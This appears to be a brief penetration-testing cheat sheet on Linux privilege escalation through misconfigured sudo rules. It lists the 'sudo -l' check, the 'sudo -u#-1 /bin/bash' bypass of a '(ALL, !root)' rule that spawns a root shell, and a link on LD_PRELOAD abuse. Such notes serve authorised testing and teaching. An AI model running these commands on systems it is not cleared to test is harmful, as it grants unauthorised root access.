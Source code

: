 # Misconfigured sudo commands
## Checks
```
sudo -l
```
### Bypass (ALL, !root) /bin/bash ||| (ALL, !root) ALL
```
sudo -u#-1 /bin/bash
```
### Abuse env_keep+=LD_PRELOAD
```
https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/
```
